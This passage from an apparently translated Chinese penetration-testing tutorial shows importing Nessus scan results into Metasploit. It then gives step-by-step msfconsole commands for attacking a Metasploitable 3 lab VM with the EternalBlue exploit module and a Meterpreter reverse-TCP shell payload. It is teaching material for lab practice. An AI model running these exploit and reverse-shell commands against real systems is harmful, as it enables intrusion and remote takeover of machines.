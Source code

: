图 11：显示 Nessus 发现的漏洞

现在，我们可以针对 Nessus 数据库导入搜索特定漏洞。例如，使用`vulns -S eternalblue`命令，我们可以搜索一个已知的漏洞，如下面的屏幕截图所示：

![](img/a6c2db09-0642-4e0c-a906-8384ed90d0f7.png)

图 12：搜索 Nessus 扫描中的漏洞

请注意，输出显示了主机的 IP 地址以及与搜索查询相关的漏洞

# 使用 Metasploit 攻击远程目标

现在，我们已经从 Nessus 导入了数据，并且了解了如何在 Metasploit 框架中使用这些功能，现在让我们对 Metasploitable 3 虚拟机进行一次攻击。

我们将使用`ms17_010_eternalblue`漏洞。我们已确定 Metasploitable 3 虚拟机易受此攻击：

1.  使用`msfconsole`命令从终端窗口打开 Metasploit 框架。
2.  加载 Metasploit 框架后，使用`use exploit/windows/smb/ms17_010_eternalblue`命令并按*回车*。

3.  使用`set RHOSTS [IP]`命令定义目标（即 Metasploitable 3 虚拟机的 IP 地址）。
4.  我们将使用 MeterMeter 有效载荷，因为这将在本章后面使用。使用`set payload``windows/x64/meterpreter/reverse_tcp`命令定义有效负载。注意所有设置选项，如以下屏幕截图所示：

![](img/70ffc25d-38ef-480b-98ec-50b1a3811acf.png)
